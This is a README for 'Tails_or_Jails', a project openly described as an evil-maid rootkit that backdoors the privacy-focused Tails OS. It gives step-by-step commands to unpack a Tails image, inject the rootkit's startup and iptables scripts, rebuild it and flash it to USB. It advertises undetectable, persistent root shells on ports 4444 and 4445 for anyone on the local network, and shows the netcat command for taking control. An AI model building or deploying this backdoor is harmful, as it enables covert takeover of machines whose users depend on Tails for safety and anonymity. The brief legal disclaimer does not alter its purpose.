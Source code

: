 # Tails_or_Jails

## An evil-maid rootkit for Tails OS

<!-- DESCRIPTION -->
## Description:

An evil-maid rootkit is a type of stealthy malware that is physically installed on a device, by an attacker with temporary access. The term comes from the idea that even a hotel maid—or any unauthorized person—could install it while the owner is away. This rootkit is designed to compromise system security at a deep level, often targeting bootloaders, firmware, or encryption mechanisms to intercept passwords, decrypt sensitive data, or install backdoors for remote access.

## Disclaimer: 

By using this tool, you agree to use it solely for lawful purposes and not for any illegal activities. The developer disclaims any responsibility for misuse of the tool and any consequences that may arise from such actions. It is your responsibility to ensure that your use of this tool complies with all applicable laws and regulations.

<!-- FEATURES -->
## Features:

- No signs of compromise

- Persistent remote access with highest privileges

- Everyone on local network can control the system by connecting to machine's ip address (port 4444 for root and port 4445 for default user)

<!-- BUILD -->

## Build it yourself:
      
    git clone https://github.com/umutcamliyurt/Tails_or_Jails.git
    cd Tails_or_Jails/
    wget https://download.tails.net/tails/stable/tails-amd64-6.11/tails-amd64-6.11.img
    mv tails-amd64-6.11.img tails-rootkit-amd64-6.11.img
    sudo losetup -Pf tails-rootkit-amd64-6.11.img
    sudo mount /dev/loop0p1 /mnt
    mkdir ~/filesystem
    mkdir ~/img_mount
    sudo unsquashfs -f -d ~/img_mount /mnt/live/filesystem.squashfs
    sudo cp -r src/* ~/img_mount/

Open another terminal and enter:

    sudo mount --types proc /proc ~/img_mount/proc
    sudo mount --rbind /sys ~/img_mount/sys
    sudo mount --rbind /dev ~/img_mount/dev
    sudo mount --rbind /dev/pts ~/img_mount/dev/pts
    sudo chroot ~/img_mount /bin/bash
    sudo chmod a+rx /iptables.sh /startup.sh /startup_fallback.sh
    exit
    sudo umount ~/img_mount/proc
    sudo umount ~/img_mount/sys
    sudo umount ~/img_mount/dev/pts
    sudo umount ~/img_mount/dev

Finally build the image:
    
    sudo mksquashfs ~/img_mount ~/filesystem/filesystem.squashfs -comp zstd -Xcompression-level 3 -b 1M -processors 6
    sudo cp ~/filesystem/filesystem.squashfs /mnt/live/
    sudo umount /mnt
    sudo losetup -D

<!-- INSTALLATION -->
## Installation:

[Download Tails_or_Jails 6.11 USB image](https://github.com/umutcamliyurt/Tails_or_Jails/releases) (Skip this if you built it yourself) 
       
    sudo apt-get update
    sudo apt install gnome-disk-utility netcat

  **Plug in the USB stick on which you want to install Tails_or_Jails.**

  ![gnome_disks_drive](gnome_disks_drive.png)

  1. A new drive appears in the left pane. Click on it.

  2. Click on the Drive Options button in the title bar and choose **Restore Disk Image.**

  ![gnome_disks_menu](gnome_disks_menu.png)

  3. In the Restore Disk Image dialog, click on the file selector button.

  4. Choose the USB image that you downloaded earlier.

  5. Click the Start Restoring button.

**Make another computer boot from this USB stick.**

On your computer run `nc (target_ip) 4444` for controlling the target.


<!-- LICENSE -->
## License

Distributed under the MIT License. See `LICENSE` for more information.
